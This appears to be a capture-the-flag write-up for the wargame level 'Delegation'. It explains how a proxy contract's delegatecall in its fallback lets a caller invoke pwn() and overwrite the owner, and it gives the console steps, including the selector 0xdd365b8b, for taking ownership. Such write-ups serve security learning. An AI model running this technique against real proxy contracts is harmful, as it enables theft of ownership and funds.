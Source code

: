 # **Level 06 - Delegation**

## 🎯 Goal  
To claim ownership of the contract "Delegation".

## 💥 Vulnerability  
The "Delegation" contract (= proxy-contract) uses `delegatecall(msg.data)` inside its fallback() function to forward calls to the "Delegate" contract (= main logic contract).
However, **delegatecall executes the target code in the context of the calling contract**, meaning it can modify the storage of "Delegation".

The part of the vulnerable code:
```solidity 
// Solidity code 
function pwn() public {
        owner = msg.sender;
    }
```

## 🛠 ️Solution (via browser console)
The following steps were executed:
```js
// JS console input 
// 0. Check current owner - not player 
(await contract.owner()).toString()

// 1. Get function calldata - need only function selector (first 4 bytes = 8 hex symbols)
await web3.utils.keccak256("pwn()")

// 2. Call fallback fuction via sending transaction in console with calldata
await contract.sendTransaction({data: "0xdd365b8b"})

// 3. Confirm new ownership - player
(await contract.owner()).toString()
```

## 🧙 Outcome
Ownership of the Delegation contract was successfully claimed by exploiting the delegatecall behavior — calling pwn() through the fallback function caused storage in "Delegation" to be updated.
